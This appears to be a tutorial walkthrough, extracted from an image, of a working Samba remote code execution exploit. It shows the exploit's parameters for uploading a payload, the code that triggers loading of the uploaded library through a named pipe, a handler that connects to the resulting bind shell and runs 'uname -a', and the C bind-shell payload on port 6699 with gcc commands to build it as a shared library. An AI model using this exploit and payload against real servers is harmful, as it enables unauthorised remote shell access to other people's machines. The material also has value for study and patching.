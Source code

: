 ```
    ap.add_argument("-r", "--remotepath", required=True, help="Executable/Payload path on remote file system")
    ap.add_argument("-u", "--user", required=False, help="Samba username (optional")
    ap.add_argument("-p", "--password", required=False, help="Samba password (optional)")
	ap.add_argument("-P", "--remoteshellport", required=False, help="Connect to a shell running in the remote host after exploitation")
```
<br>
This block is the parameters block. We can see what is needed to run the exploit. We have a remote shell port option too. This is in case we want the code to automatically connect to the bind shell which runs on the target.
Under that we can see a port already set up to 445. We can change it but SMB will probably be on port 445 by default so let's leave it for now. Now let's explore to the function named exploit. 
First we open the smb connection to the target. Then we try to upload the file given in the parameter. Then we execute the exploit.
<br>
<h2>Total Exploitation</h2>
This is the actual exploitation part. So far only the exploit code has been uploaded. If everything goes right, this few lines will execute the uploaded code. The main idea behind this is that a Samba server can load libraries from shared locations. 
This information will be handy because we know now that only special files can be uploaded and executed. Now, for the execution to work, we need the full path of the uploaded payload. This is the point where in case the payload does not seem to execute, you need to make adjustments and tweaks to make it work. The actual malformed request should not be changed, but just changing the parameters. First let's not update the code here, but give yourself a better view on what's actually happening by writing the actual malformed request to the console.
Modified code:
<br>
```
    triggerModule = r'ncacn_np:%s[\pipe\%s]' % (target, remotepath)
	print("The exploit code section looks like this:")
	print(triggerModule)
    rpcTransport = transport.DCERPCTransportFactory(triggerModule)
    dce = rpcTransport.get_dce_rpc()
    triggerThread = Thread(target=dceTrigger, args=(dce,))
    triggerThread.daemon = True
    triggerThread.start()
```
<br>
After this we only have the handler. In case of our payload being a bind shell, this handler will connect to it. We can delete this if we want to connect with a different method all together. 
There is also a test if the exploit was successful or not. "Uname -a" will run when the handler establishes connection which displays the OS version and Kernel version installed on the exploited machine.
<br>
<h2>Payload</h2>
Let's check the payload given for this exploit. This is a bind shell written in C. Looking at the code of bindshell-samba.c we can see a nicely commented code. Without going into much details, the only thing we need to take a look is where the port number is set.
<br>
```
    hostAddr.sin_family = AF_INET;
    hostAddr.sin_port = htons(6699);
    hostAddr.sin_addr.s_addr = htonl(INADDR_ANY);
```
<br>
We can see that the listening port is set to 6699. We can change it anytime. 
Let's compile the payload using GCC and the following flags.
<br>
```
gcc -c -fpic bindshell-samba.c
gcc -shared -o libbindshell-samba.so bindshell-samba.o
```
<br>